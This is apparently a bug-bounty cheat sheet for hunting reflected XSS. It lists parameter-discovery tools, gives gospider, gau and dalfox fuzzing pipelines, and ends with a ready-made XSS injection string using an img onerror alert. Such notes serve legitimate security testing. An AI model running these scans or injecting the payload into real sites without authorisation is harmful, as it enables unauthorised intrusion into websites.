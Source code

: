 ## Get Parameter as much as possible

1. https://github.com/devanshbatham/ParamSpider
2. gospider -S tageturls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'|grep "=" | qsreplace -a | dalfox pipe -o result.txt
3. Waybackurls | gau
4. https://github.com/s0md3v/Arjun
5. https://github.com/hakluke/hakrawler
6. https://github.com/PortSwigger/param-miner

Combine all in a file and remove duplicates.

## Run XSS fuzzer
1. https://github.com/s0md3v/XSStrike
2. https://github.com/hahwul/dalfox


Resources:
- https://blog.yeswehack.com/yeswerhackers/parameter-discovery-quick-guide-to-start/
- https://infosecwriteups.com/tale-of-my-first-xss-27f622bc47c0
<hr>

## dalfox usage:
```
gf xss domain.txt | grep -Eo 'https?://[^\"]+' > domain.txt
dalfox file domain.txt -w 20 --silence
```

<hr>

## another technique to find XSS

- Scrape all urls from the domain using gau
- then sort the result using grep command: `cat url.txt | grep “utm_”`
- do testing

resources:
- https://santoshdbobade.medium.com/how-i-got-reflected-cross-site-scripting-rxss-on-manchester-metropolitan-university-700b36cb4f53


<hr>

## Custom useful XSS Attack Vector
```
testing"><img/src=x onerror=alert(/XSS/)//
```

